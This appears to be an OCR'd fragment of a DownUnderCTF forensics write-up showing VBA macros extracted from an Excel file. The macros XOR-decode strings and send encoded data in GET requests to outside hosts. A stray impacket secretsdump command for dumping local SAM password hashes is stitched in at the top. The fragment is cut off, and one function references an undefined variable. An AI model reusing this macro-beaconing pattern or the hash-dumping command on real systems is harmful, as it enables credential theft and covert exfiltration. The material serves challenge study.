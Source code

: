 ```secretsdump.py -sam sam.bak -system system.bak LOCAL```
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    


Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function


Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function


Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function


Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function

-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
```